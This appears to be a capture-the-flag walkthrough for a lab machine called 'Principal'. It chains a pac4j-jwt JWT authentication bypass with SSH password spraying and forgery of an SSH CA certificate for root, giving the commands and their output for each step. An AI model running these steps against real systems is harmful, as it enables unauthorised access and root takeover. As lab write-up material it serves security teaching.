



# Principal Walkthrough


This machine demonstrates multiple vulnerabilities including:
- pac4j-jwt Authentication Bypass Exploitation (CVE-2026-29000)
- SSH CA Certificate Forgery

## Reconnaissance
 First, we perform an NMAP scan to identify services running on the target machine

 ```bash
 nmap -sC -sV -A <Machine_IP>
```

```bash
# Nmap 7.95 scan initiated Fri Mar 13 08:23:36 2026 as: /usr/lib/nmap/nmap --privileged -sCV -A -oA nmap-principal 10.129.253.199
Nmap scan report for 10.129.253.199
Host is up (0.66s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b0:a0:ca:46:bc:c2:cd:7e:10:05:05:2a:b8:c9:48:91 (ECDSA)
|_  256 e8:a4:9d:bf:c1:b6:2a:37:93:40:d0:78:00:f5:5f:d9 (ED25519)
8080/tcp open  http-proxy Jetty
| http-title: Principal Internal Platform - Login
|_Requested resource was /login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Fri, 13 Mar 2026 12:26:02 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: application/json
|     {"timestamp":"2026-03-13T12:26:02.624+00:00","status":404,"error":"Not Found","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     Date: Fri, 13 Mar 2026 12:25:59 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Content-Language: en
|     Location: /login
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Fri, 13 Mar 2026 12:26:00 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Allow: GET,HEAD,OPTIONS
|     Accept-Patch: 
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 505 HTTP Version Not Supported
|     Date: Fri, 13 Mar 2026 12:26:01 GMT
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 349
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=ISO-8859-1"/>
|     <title>Error 505 Unknown Version</title>
|     </head>
|     <body>
|     <h2>HTTP ERROR 505 Unknown Version</h2>
|     <table>
|     <tr><th>URI:</th><td>/badMessage</td></tr>
|     <tr><th>STATUS:</th><td>505</td></tr>
|     <tr><th>MESSAGE:</th><td>Unknown Version</td></tr>
|     </table>
|     </body>
|     </html>
|   Socks5: 
|     HTTP/1.1 400 Bad Request
|     Date: Fri, 13 Mar 2026 12:26:04 GMT
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 382
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=ISO-8859-1"/>
|     <title>Error 400 Illegal character CNTL=0x5</title>
|     </head>
|     <body>
|     <h2>HTTP ERROR 400 Illegal character CNTL=0x5</h2>
|     <table>
|     <tr><th>URI:</th><td>/badMessage</td></tr>
|     <tr><th>STATUS:</th><td>400</td></tr>
|     <tr><th>MESSAGE:</th><td>Illegal character CNTL=0x5</td></tr>
|     </table>
|     </body>
|_    </html>
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Two services are exposed:
- **22/tcp - SSH**
- **8080/tcp - http-proxy(Jetty)**

Let's check the website running on port 8080.



We have a version detection in our scan - 'pac4j-jwt/6.0.3'

A known vulnerability exists for this version. - CVE-2026-29000 ( pac4j-jwt Authentication Bypass)

CVE-2026-29000 is a critical authentication bypass vulnerability affecting the pac4j-jwt authentication library. The flaw occurs when the JwtAuthenticator improperly validates encrypted JWT (JWE) tokens, allowing an attacker to craft a malicious token that bypasses signature verification and impersonates arbitrary users.

Here is the exploit: [text](exploit.py)

```bash
 python3 exploitt.py http://10.129.244.220:8080
[*] Fetching JWKS...
[+] Got RSA public key (kid: enc-key-1)
[*] Crafted PlainJWT with admin privileges
[+] Forged JWE token created

[*] Accessing /api/dashboard...
[+] Status: 200
[+] Authenticated as: admin (ROLE_ADMIN)
[+] Token: eyJhbGciOi..............4wYSHsoH5XVu9aYiXw
```
Now open the browser developer tools and add the generated token to session storage using the key `auth_token`.



In the dashboard check the users and settings endpoint. We can find few usernames from users endpoint and There is a couple of interesting findings from security endpoint.
Firstly, we found an encryption key which can be used for ssh and we found some information which will be useful for privilege escalation.



Let's see if password spraying works
Using the credentials discovered from the application, we perform password spraying against the SSH service.

```bash
nxc ssh <Machine_IP> -u user.txt -p 'D3p.....2!'
SSH         10.129.244.220  22     10.129.244.220   [*] SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.14
SSH         10.129.244.220  22     10.129.244.220   [-] admin:D3p......42!
SSH         10.129.244.220  22     10.129.244.220   [+] svc-deploy:D3p......42!  Linux - Shell access!
```
Let's login via ssh

```bash
ssh svc-deploy@<Machine_IP>
svc-deploy@10.129.244.220's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

svc-deploy@principal:~$ 
```
We can find user flag from here. 

## Privilege Escalation


Let's inspect the discovered directory.

```bash
svc-deploy@principal:/opt/principal/ssh$ ls
README.txt  ca  ca.pub
svc-deploy@principal:/opt/principal/ssh$ cat README.txt 
CA keypair for SSH certificate automation.

This CA is trusted by sshd for certificate-based authentication.
Use deploy.sh to issue short-lived certificates for service accounts.

Key details:
  Algorithm: RSA 4096-bit
  Created: 2025-11-15
  Purpose: Automated deployment authentication
```
The configuration specifies TrustedUserCAKeys, which means SSH trusts certificates signed by this CA. However, no AuthorizedPrincipalsFile is configured, allowing any certificate signed by the CA to authenticate as any user specified in the certificate principal.

Let's try to find out more about this. So let's have a look at configuration file for ssh

```bash
svc-deploy@principal:/opt/principal/ssh$ cat /etc/ssh/sshd_config.d/60-principal.conf 
# Principal machine SSH configuration
PubkeyAuthentication yes
PasswordAuthentication yes
PermitRootLogin prohibit-password
TrustedUserCAKeys /opt/principal/ssh/ca.pub
```
We cannot login to root via using password.
Since the CA file is trusted we can forge a new ssh key pair with root signature.

Let's generate a new key 

```bash
svc-deploy@principal:/opt/principal/ssh$ ssh-keygen -t rsa -b 4096 -f /tmp/root_key -N ""
Generating public/private rsa key pair.
Your identification has been saved in /tmp/root_key
Your public key has been saved in /tmp/root_key.pub
The key fingerprint is:
SHA256:wVrlMyB7Puyo0bm6ZEv6F8jhpoHthU139qkbgULw4nk svc-deploy@principal
The key's randomart image is:
+---[RSA 4096]----+
|  .   . . .      |
|   o   + +       |
|  . o . = +      |
| . +o .Bo. o     |
| oo*E+ooS. .     |
|. +.Bo.+ oo      |
| . == +.o.       |
|  o= +....       |
|  ..*+. ..       |
+----[SHA256]-----+
```

Now sign the public key with the compromised CA private key while setting root as the principal, allowing us to authenticate as root via SSH.

```bash
ssh-keygen -s /opt/principal/ssh/ca -I "root" -n root -V +1h /tmp/root_key.pub

Signed user key /tmp/root_key-cert.pub: id "root" serial 0 for root valid from 2026-03-13T14:21:00 to 2026-03-13T15:22:41
```

Now use the ssh key to login as root

```bash
svc-deploy@principal:/opt/principal/ssh$ ssh -i /tmp/root_key root@localhost
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

root@principal:~# ls
root.txt
```
## Attack Chain Summary

```text
Nmap Scan
    │
    ▼
Port Discovery
    │
    ├── 22/tcp   → SSH (OpenSSH 9.6)
    └── 8080/tcp → Jetty Web Server (pac4j-jwt/6.0.3)
    │
    ▼
Version Enumeration
    │
    └── pac4j-jwt/6.0.3 → CVE-2026-29000 Authentication Bypass
    │
    ▼
Exploit CVE-2026-29000
    │
    ├── Retrieve RSA public key from JWKS endpoint
    ├── Craft malicious JWT with admin privileges
    ├── Encrypt JWT into JWE using server public key
    └── Access protected API endpoints as admin
    │
    ▼
Dashboard Access
    │
    ├── Enumerate users
    └── Discover deployment credentials
    │
    ▼
Password Spraying against SSH
    │
    └── svc-deploy account compromise
    │
    ▼
SSH Foothold (svc-deploy)
    │
    ├── Enumerate system files
    └── Discover SSH CA private key
       (/opt/principal/ssh/ca)
    │
    ▼
SSH CA Certificate Forgery
    │
    ├── Generate new SSH key pair
    ├── Sign public key with compromised CA
    └── Set principal = root
    │
    ▼
SSH Login as root
    │
    └── Root privilege escalation → root.txt
```

## Key Vulnerabilities
| # | Vulnerability | Impact |
| - | ------------- | ------ |
| 1 | **CVE-2026-29000 – pac4j-jwt Authentication Bypass** | Allows attackers to forge encrypted JWT tokens and impersonate any user           |
| 2 | **JWKS Public Key Exposure**                         | Enables attackers to encrypt malicious tokens using the trusted RSA public key    |
| 3 | **Credential Exposure / Reuse**                      | Discovered credentials allowed SSH access as `svc-deploy`                         |
| 4 | **Improper Protection of SSH CA Private Key**        | The CA private key was accessible to the compromised user                         |
| 5 | **SSH Certificate Trust Misconfiguration**           | Absence of `AuthorizedPrincipalsFile` allows arbitrary principals in certificates |

